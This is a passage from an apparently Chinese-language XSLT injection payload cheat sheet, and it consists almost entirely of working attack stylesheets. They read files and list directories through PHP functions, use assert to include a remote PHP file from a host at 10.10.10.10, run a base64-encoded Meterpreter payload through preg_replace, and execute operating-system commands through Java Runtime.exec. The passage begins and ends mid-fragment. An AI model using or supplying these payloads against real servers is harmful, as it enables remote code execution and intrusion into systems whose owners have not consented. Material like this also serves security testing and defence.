 ```xml
</xsl:stylesheet>
```
 ##### 使用 PHP wrapper执行远程代码
	执行函数readfile
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```
	执行函数scandir
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
        </xsl:template>
</xsl:stylesheet>
```
	使用assert执行远程php文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
		<xsl:variable name="payload">
			include("http://10.10.10.10/test.php")
		</xsl:variable>
		<xsl:variable name="include" select="php:function('assert',$payload)"/>
</body>
</html>
```
	执行 PHP Meterpreter
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:variable name="eval">
                        eval(base64_decode('Base64-encoded Meterpreter code'))
                </xsl:variable>
                <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
        </xsl:template>
</xsl:stylesheet>
```
	使用 Java 远程执行代码
```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```
```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
```